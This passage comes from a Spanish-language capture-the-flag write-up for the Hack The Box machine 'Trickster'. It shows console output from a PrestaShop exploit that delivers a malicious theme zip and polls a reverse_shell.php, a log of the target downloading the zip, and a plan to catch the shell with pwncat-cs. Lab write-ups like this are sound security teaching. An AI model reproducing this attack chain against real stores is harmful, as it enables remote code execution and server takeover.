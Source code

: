 ![Write-up Image](images/Screenshot_16.png)

Nos reporta un código 200 al hacer el GET por segunda vez pero no recibimos la reverse shell.
```console
$ sudo python3 exploit.py                                       21:16:39 [153/239]
[?] Please enter the URL (e.g., http://prestashop:8000): http://shop.trickster.htb        
[?] Please enter your email: pointed@pointed.com                                          
[?] Please enter your message: test                                                       
[?] Please provide the path to your HTML file: exploit.html                               
[X] Yay! Your exploit was sent successfully!                                              
[X] Remember to python http server on port whatever port is specified in exploit.html     
        in directory that contains ps_next_8_theme_malicious.zip to host it.              
[X] Once a CS agent clicks on attachment, you'll get a SHELL!                             
[X] Ncat is now listening on port 443. Press Ctrl+C to terminate.                         
Serving at http.Server on port 5000                                                       
listening on [any] 443 ...                                                                
GET request to http://shop.trickster.htb/themes/next/reverse_shell.php: 403               
GET request to http://shop.trickster.htb/themes/next/reverse_shell.php: 200
```

Además por arriba vemos las solicitudes de descarga del tema malicioso.
```console
$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.129.44.138 - - [23/Sep/2024 21:14:48] "GET /ps_next_8_theme_malicious.zip HTTP/1.1" 200 -
10.129.44.138 - - [23/Sep/2024 21:15:55] "GET /ps_next_8_theme_malicious.zip HTTP/1.1" 200 -
```

Voy a modificar el exploit para que escuche por el puerto 444 y me voy a poner yo en escucha manualmente con `pwncat-cs` por el puerto 443.
![Write-up Image](images/Screenshot_17.png)
